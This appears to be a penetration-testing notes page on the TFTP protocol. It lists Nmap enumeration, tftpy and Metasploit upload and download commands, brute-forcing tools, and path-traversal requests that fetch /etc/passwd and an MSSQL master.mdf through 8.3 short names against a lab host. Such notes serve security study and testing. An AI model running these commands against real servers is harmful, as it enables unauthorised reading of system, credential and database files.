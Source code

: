 ```yaml
---
Ports: 69 (UDP)
Description: Is a simple lockstep File Transfer Protocol which allows a client to get a file from or put a file onto a remote host. One of its primary uses is in the early stages of nodes booting from a local area network. TFTP has been used for this application because it is very simple to implement.
---
```


>[!info]
> **TFTP** uses UDP port 69 and **requires no authentication**—clients read from, and write to servers using the datagram format outlined in RFC 1350. Due to deficiencies within the protocol (namely lack of authentication and no transport security), it is uncommon to find servers on the public Internet. Within large internal networks, however, TFTP is used to serve configuration files and ROM images to VoIP handsets and other devices.

---

# Enumeration

TFTP doesn't provide directory listing so the script `tftp-enum` from [NSE (Nmap Scripting Engine)](../Tools/nmap.md#NSE%20(Nmap%20Scripting%20Engine)) will try to brute-force default paths.

```
nmap -n -Pn -sU -p69 -sV --script tftp-enum <IP>
```

## Download & Upload

You can use Metasploit or Python to check if you can download/upload files:

```python
import tftpy
client = tftpy.TftpClient(<ip>, <port>)
client.download("filename in server", "/tmp/filename", timeout=5)
client.upload("filename to upload", "/local/path/file", timeout=5)
```

```bash
msf5> auxiliary/admin/tftp/tftp_transfer_util
```

```bash
┌──(kali㉿kali)-[~/…/lab/ntwk/WORKGROUP/10.11.1.111]
└─$ tftp 10.11.1.111
tftp> PUT local_file
tftp> GET conf.txt

TFTP Solarwinds
> tftp – i <IP> GET /etc/passwd (old Solaris)

TFTP Bruteforcing
> TFTP bruteforcer
> Cisco-Torch
```

## Bypass directory with spaces

Use `/X` dir's flag. This displays the short names generated for non-8dot3 file names. The format is that of /N with the short name inserted before the long name. If no short name is present, blanks are displayed in its place.

```powershell
C:\Program Files\Microsoft SQL Server\MSSQL14.SQLEXPRESS\MSSQL>dir /x
 Volume in drive C has no label.
 Volume Serial Number is 8086-3796

 Directory of C:\Program Files\Microsoft SQL Server\MSSQL14.SQLEXPRESS\MSSQL

05/20/2019  01:36 PM    <DIR>                       .
05/20/2019  01:36 PM    <DIR>                       ..
05/20/2019  01:36 PM    <DIR>                       Backup
05/20/2019  01:36 PM    <DIR>                       Binn
05/20/2019  01:36 PM    <DIR>                       DATA
05/20/2019  01:35 PM    <DIR>                       Install
05/20/2019  01:36 PM    <DIR>                       JOBS
01/21/2020  09:09 PM    <DIR>                       Log
08/22/2017  10:16 PM           100,536 SQL_EN~1.DLL sql_engine_core_inst_keyfile.dll
05/20/2019  01:36 PM    <DIR>          TEMPLA~1     Template Data
               1 File(s)        100,536 bytes
               9 Dir(s)   9,691,648,000 bytes free
```

```bash
$ tftp 10.11.1.111
tftp> get ../PROGRA~1/MICROS~1/MSSQL1~1.SQL/MSSQL/TEMPLA~1/master.mdf
```

---

# Misc

- [TFTP dynamic server](../Dev,%20scripting%20&%20OS/Dynamic%20Servers.md#TFTP)
- [TFTP file transfer](../Web%20&%20Network%20Hacking/File%20transfer.md#TFTP)